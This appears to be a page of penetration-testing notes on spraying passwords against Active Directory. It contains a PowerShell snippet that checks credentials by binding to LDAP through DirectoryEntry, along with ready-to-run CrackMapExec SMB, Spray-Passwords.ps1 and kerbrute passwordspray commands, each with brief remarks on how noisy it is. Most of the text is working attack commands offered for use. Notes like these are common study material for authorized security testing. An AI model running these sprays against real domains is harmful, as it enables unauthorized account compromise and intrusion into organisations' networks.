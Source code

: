 ### LDAP and ADSI

Can incorporate the following PowerShell code into a wider script to enumerate valid credentials.

It:
1. gets domain name;
2. gets the primary domain controller name;
3. constructs an LDAP query path; and
4. attempts to build a new `DirectoryEntry` class pointing to the top of the domain.

If #4 executes without errors, then the credentials were valid. If it throws errors, it was not valid.

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://" + $PDC + "/" + "DC=$($domainObj.Name.Replace('.',',DC='))"

NewObject System.DirectoryServices.DirectoryEntry($SearchString, "TEST_USERNAME_HERE", "TEST_PASSWORD_HERE")
```

Community tools already exist though, such as:
- `Spray-Passwords.ps1`
    - `.\Spray-Passwords.ps1 -Pass <TEST_PASSWORD_HERE> -Admin`
    - Above will automatically identify AD users and spray passwords using methods similar to the PowerShell script defined above.
    - https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1

Can also use CrackMapExec:

```
link@kali:~$ crackmapexec smb <DC-IP> -u usernames.txt -p "<PASSWORD>" --continue-on-success --no-bruteforce
```

### SMB
- `crackmapexec`
    - `crackmapexec smb <TARGET> -u usernames.txt -p '<TEST_PASSWORD_HERE> -d <TARGET_DOMAIN> --continue-on-success`
    - Attempts to SMB connect with users against target.
    - Quite noisy and slow due to SMB connections being established.
    - Can run from Kali.

### Kerberos Authentication Server Request
- `kerbrute`
    - `.\kerbrute.exe passwordspray -d <TARGET_DOMAIN> .\usernames.txt "<TEST_PASSWORD_HERE>"`
    - Just sends 2 UDP frames for Kerberos AS-REQ and examines responses.
    - Run executable on windows.
    - https://github.com/ropnop/kerbrute
